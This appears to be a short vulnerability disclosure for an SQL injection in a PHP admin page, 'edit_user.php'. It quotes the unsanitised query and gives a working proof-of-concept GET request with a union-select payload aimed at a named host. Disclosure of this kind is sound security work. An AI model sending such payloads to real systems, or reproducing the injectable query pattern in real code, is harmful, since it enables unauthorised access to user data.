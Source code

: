 ### Vulnerability file address

`admin/edit_user.php` from line 4,The $user_id parameter is controllable, the parameter user_id can be passed through post, and the $user_id is not protected from sql injection, resulting in sql injection

```php
$user_id=$_REQUEST['user_id'];

$result=mysqli_query($con,"select user_id, email, password from user_info where user_id='$user_id'")or die ("query 1 incorrect.......");

list($user_id,$user_name,$user_password)=mysqli_fetch_array($result);
```

### POC

```http
GET /admin/edit_user.php?user_id=1%27+union+select+1,user(),3%23 HTTP/1.1
Host: www.onsp.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=iq8aj0cq3p4rf0s9m3864gtkr0
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20220721150213979](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220721150214.png)